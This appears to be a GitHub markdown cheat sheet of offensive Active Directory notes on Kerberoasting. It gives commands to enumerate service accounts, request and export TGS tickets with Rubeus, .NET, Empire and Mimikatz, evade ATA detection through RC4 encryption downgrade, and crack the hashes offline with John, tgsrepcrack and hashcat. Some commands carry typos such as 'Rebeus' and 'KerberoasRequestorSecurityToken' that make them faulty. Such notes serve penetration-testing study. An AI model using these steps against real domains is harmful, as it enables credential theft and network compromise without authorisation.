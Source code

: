 # Domain Privilege Escalation - Kerberoast

- [Domain Privilege Escalation - Kerberoast](#domain-privilege-escalation---kerberoast)
  - [Kerberoast](#kerberoast)
  - [Rubeus.exe](#rubeusexe)
  - [.NET classes](#net-classes)
  - [Empire](#empire)
  - [Password Cracking - John the Ripper](#password-cracking---john-the-ripper)
  - [Password Cracking - tgsrepcrack](#password-cracking---tgsrepcrack)
  - [Password Cracking - Hashcat](#password-cracking---hashcat)

---

## Kerberoast

![picture 1](images/ec9e6f5754270d77dae65520c15e1aae8d3224b231266bce45a1cde0325cb268.png)  


The main goal of **Kerberoast** is to __offline brute force service account passwords__.

The **Ticket-Granting Service (TGS)** has a server portion which is *encrypted with the password hash of the service account*. This makes it possible to request a ticket and do offline brute-force.

Since (non-machine) service account passwords are not frequently changed, this has become a very popular attack!

In the detection perspective, only Event ID 4769 will be logged on DC.

<br/>

To find user accounts used as Service Accounts:

- PowerView

```
Get-DomainUser -SPN
```

- AD Module

```
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
```

<br/>

---

## Rubeus.exe

To perform Kerberoast, we can make use of **Rubeus.exe**.

- https://github.com/GhostPack/Rubeus
- Compliied: https://github.com/r3motecontrol/Ghostpack-CompiledBinaries

<br/>

Note:
When you use Rebeus, always launch a new command prompt.

<br/>

List Kerberoast stat:

```
Rubeus.exe kerberoast /stats
```

<br/>

Request a TGS:

```
Rebeus.exe kerberoast /user:<serviceaccount> /simple
```

<br/>

To avoid detections based on Encryption Downgrade of Kerberos EType (used by likes of ATA - `0x17` = `rc4-hmac`), look for Kerberoastable accounts that only support `RC4_HMAC`.

```
Rebeus.exe kerberoast /stats /rc4opsec
```

```
Rebeus.exe kerberoast /user:<serviceaccount> /simple /rc4opsec
```

<br/>

Kerberoast all possible accounts:

```
Rebeus.exe kerberoast /rc4opsec /outfile:hashes.txt
```

<br/>

---

## .NET classes

Alternatively, we can request tickets using .NET classes:

```
Add-Type -AssemblyName System.IdentityModel

New-Object System.IdentityModel.Tokens.KerberoasRequestorSecurityToken -ArgumentList "USSvc/serviceaccount"
```

<br/>

---

## Empire

Also you may use `Invoke-Kerberoast` from BC Empire (https://github.com/BC-SECURITY/Empire) for cracking with John or Hashcat:

```
. .\Invoke-Kerberoast.ps1

Invoke-Kerberoast -Ideneity <serviceaccount>
```

```
Invoke-Kerberoast -Identity <serviceaccount> -OutputFormat Hashcat | Select-Object Hash | Out-File -FilePath .\hashcat.txt -Width 8000
```

<br/>

---

## Password Cracking - John the Ripper

Crack ticket using JtR:

```
john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\hashes.txt
```

<br/>

---

## Password Cracking - tgsrepcrack

To check if the ticket has been granted:

```
klist
```

<br/>

Export all tickets using Mimikatz:

```
Invoke-Mimikatz -Command '"kerberos::list /export"'
```

<br/>

Crack the Service Account password:

```
python.exe .\tgsrepcrack.py .\10k-worst-passwords.txt <kirbi_tgs_ticket>
```

---

## Password Cracking - Hashcat

Crack the password using hashcat.exe:

```
hashcat.exe -m 13100 -a 0 .\ToBeCracked\hashes.txt .\wordlists\10k-worst-pass.txt
```

<br/>

---